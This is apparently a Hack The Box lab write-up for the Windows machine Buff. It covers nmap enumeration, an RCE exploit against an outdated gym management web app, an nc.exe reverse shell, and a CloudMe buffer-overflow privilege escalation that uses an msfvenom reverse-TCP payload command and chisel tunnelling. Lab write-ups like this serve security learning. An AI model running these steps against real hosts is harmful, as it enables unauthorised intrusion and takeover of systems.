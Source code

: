 ```yaml
---
description: >-
 Dec1pher's writeup on the easy-difficulty Windows machine Buff from https://hackthebox.eu
---
```



# HTB - Buff
* OS: Windows
* IP: 10.10.10.198
	
 ![](../../att/buff.png)
	
## Overview
Buff is an easy windows machine that runs a gym managment web interface tha't outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found oython exploit we get administration rights on the box.

## Usefull Tools
1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration
### Nmap
As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important infrmation are `-Pn` to skip the ping test,  `-sS` foTCP SYN scan, `-sC` for teting default scripts,  `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use  the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery (HTTP 8080)
The website is a gym managment app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../att/buff-site.png)

That version of the app has a know vulnerabilty that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

### Exploiting Gym managment
By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive (we can't change directories) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box (since the nc.exe doesn't get deleted or blocked we can assume thatthe box doesn't have an antivirus or some kind of malware detection).
1. Uploading `nc.exe`
![](../../att/buff-nc.png)
2. Executing nc and getting a responsive reverse shell
![](../../att/buff-rce.png)

=> We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Priviledge escalation
After some manual enumeration on the use we can see an app that stickout `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability. 
> buffer overflow script found here => [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel to use the script
Since python is not isntalled in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

=> To create the payload
`sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finaly forward the payload to the port that the app is running.

=> Locally open chisel in server mode
![](../../att/buff-client-chisel.png)

=> Remotely execute chisel in client mode
![](../../att/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../att/buff-root.png)

At these point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`


